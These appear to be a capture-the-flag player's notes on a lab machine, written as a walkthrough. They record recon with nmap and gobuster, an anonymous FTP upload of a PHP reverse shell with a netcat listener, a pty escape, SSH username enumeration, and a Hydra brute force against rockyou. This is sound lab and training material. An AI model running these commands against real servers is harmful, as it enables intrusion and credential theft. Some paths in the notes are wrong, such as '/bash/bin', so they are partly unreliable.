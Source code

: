 Startup
#######
:Author: David Boyd
:Date: 2020-11-09

What's Worked Thus Far
**********************

.. code-block:: Bash

	###
	### PHP Reverse Shell
	###
	## NOTE: user=www-data,pass=none,group=worthless

	# Get PHP reverse shell to local dir & edit LHOST,PORT
	sudo apt install webshells
	cp /usr/shell/webshells/php/php-reverse-shell.php ./
	vim php-reverse-shell.php

	# Upload to $TM using ftp
	ftp -p ...
	put files/ftp/php-reverse-shell.php

	# Set up listener on $LHOST
	nc -l 1234
	# Invoke shell
	w3m $TM/files/ftp/php-reverse-shell.php

	# [OPTIONAL] Escaping Limited Interpreter
	python -c 'import pty;pty.spawn("/bash/bin")'

	###
	### Capture the flag (1)
	###
	ls -al
	cat recipes.txt

What To Work On
***************

	- user:lennie
	- method:ssh
	- file:public key, password

Reconnaissance
**************

User data:

+-----------------+---------------+----------+-------------------------+-------------------+
| username        | email         | password | source                  | etc               |
+=================+===============+==========+=========================+===================+
| lennie          |               |          | php-rv-shell: ls /home/ | Guarnateed a User |
+-----------------+---------------+----------+-------------------------+-------------------+
| Maya            |               |          | $TM/files/notice.txt    |                   |
+-----------------+---------------+----------+-------------------------+-------------------+
| X->Kevin Hughes | kevin@iet.com |          | $TM/icons/blank.gif     | RED HERRING       |
+-----------------+---------------+----------+-------------------------+-------------------+

Network data:

+------+---------+-----------+------------+------------+
| port | service | creds     | completion | info       |
+======+=========+===========+============+============+
| 21   | ftp     | anonymous | successful | notice.txt |
+------+---------+-----------+------------+------------+

- Apache/2.4.18 (Ubuntu) Server at $TM Port 80 | $TM/files/

Commands
********

Basic
=====

.. code-block:: Bash

	# Discovery
	sudo nmap -T5 -A -sS $TM
	sudo nmap --script=http-enum -sV -Pn $TM
	gobuster dir -u $TM -w /usr/share/wordlists/dirbuster/...small.txt

	# Determine if there are any vulnerabilities
	searchsploit vsftpd
		> nothing useful for verson 3.0.3
	searchsploit apache
		> Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Lo | linux/local/46676.php
	searchsploit openssh 7.2p2
		> linux/remote/40136	# Username enumeration

FTP
===

.. code-block:: Bash

	# Begin FTP in PASV (Passive Mode)
	ftp -p
		(username) anonymous
		Password: <blank>

	# ftp commands
	get notice.txt							# works... I can download!
	send apache2ctl_46676.php				# !=work
	put <localFile> ftp/<remoteFile>		# works... I can upload!

Red Herrings
************

Username Enumeration - 40136.py
===============================

This is a Python2 script
	- dependencies: paramiko, numpy

.. code-block:: Bash

	# Install dependencies
	pip2 install paramiko numpy

	# run program
	python2 40136.py $TM -U \
	/usr/share/wordlists/SecLists/Usernames/Names/familynames-usa-top1000.txt
		> [+] WILSON
		> [+] HARRIS
		> [+] ALLEN
		> [+] ...
		...

Hydra - ssh
===========
:Note: Nothing came out of it

.. code-block:: Bash

	hydra -L ssh-usernames.out -P /usr/share/wordlists/rockyou.txt \
	$TM ssh -t 4 -I

